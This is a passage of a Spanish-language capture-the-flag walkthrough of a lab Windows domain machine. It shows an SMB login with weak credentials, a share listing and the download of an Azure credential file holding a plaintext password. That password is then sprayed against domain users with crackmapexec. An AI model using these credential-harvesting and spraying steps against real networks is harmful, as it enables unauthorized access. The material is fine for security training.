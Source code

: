 ```null
impacket-smbclient megabank.local/SABatchJobs:SABatchJobs@10.10.10.172
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
azure_uploads
C$
E$
IPC$
NETLOGON
SYSVOL
users$
# use users$
# ls
drw-rw-rw-          0  Fri Jan  3 13:12:48 2020 .
drw-rw-rw-          0  Fri Jan  3 13:12:48 2020 ..
drw-rw-rw-          0  Fri Jan  3 13:15:23 2020 dgalanos
drw-rw-rw-          0  Fri Jan  3 13:41:18 2020 mhope
drw-rw-rw-          0  Fri Jan  3 13:14:56 2020 roleary
drw-rw-rw-          0  Fri Jan  3 13:14:28 2020 smorgan
# cd mhope
# ls
drw-rw-rw-          0  Fri Jan  3 13:41:18 2020 .
drw-rw-rw-          0  Fri Jan  3 13:41:18 2020 ..
-rw-rw-rw-       1212  Fri Jan  3 14:59:24 2020 azure.xml
# get azure.xml
```

Contiene una credencial en texto claro

```null
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Corresponde a la del usuario ```mhope```

```null
crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$' --continue-on-success | grep "+"
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
```
